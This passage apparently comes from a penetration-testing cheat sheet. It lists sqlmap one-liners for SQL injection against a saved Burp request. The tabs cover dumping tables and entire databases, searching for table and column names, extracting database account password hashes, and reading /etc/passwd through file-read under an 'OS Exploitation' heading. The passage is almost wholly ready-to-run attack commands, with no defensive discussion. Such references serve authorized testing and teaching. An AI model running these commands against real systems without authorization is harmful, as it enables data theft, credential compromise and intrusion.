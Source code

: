 {% tabs %}
{% tab title="Cond Enum" %}
{% code overflow="wrap" %}
```bash
sqlmap -r burp.req -D testdb -T testtable --dump --where="col1 LIKE 'f%'" --batch -v 0
```
{% endcode %}
{% endtab %}

{% tab title="Full DB Enum" %}
```bash
sqlmap -r burp.req -D testdb --batch -v 0
```
{% endtab %}

{% tab title="Full DBMS" %}
{% code overflow="wrap" %}
```bash
sqlmap -r burp.req --dump-all --exclude-sysdbs --batch -v
```
{% endcode %}
{% endtab %}

{% tab title="Hail Mary" %}
```bash
sqlmap -r burp.req --all --batch -v 0
```
{% endtab %}
{% endtabs %}

### Advanced Data Exfil

{% tabs %}
{% tab title="Table Name" %}
```bash
sqlmap -r burp.req --search -T tableName --batch -v 0
```
{% endtab %}

{% tab title="Col Name" %}
```bash
sqlmap -r burp.req --search -C colName --batch -v 0
```
{% endtab %}

{% tab title="Connection Creds (DB accounts, not app's)" %}
```bash
sqlmap -r burp.req --passwords --batch -v 0
```
{% endtab %}
{% endtabs %}

### OS Exploitation

{% tabs %}
{% tab title="Read" %}
```bash
sqlmap -r burp.req --batch -v 0 --file-read "/etc/passwd"
```
{% endtab %}
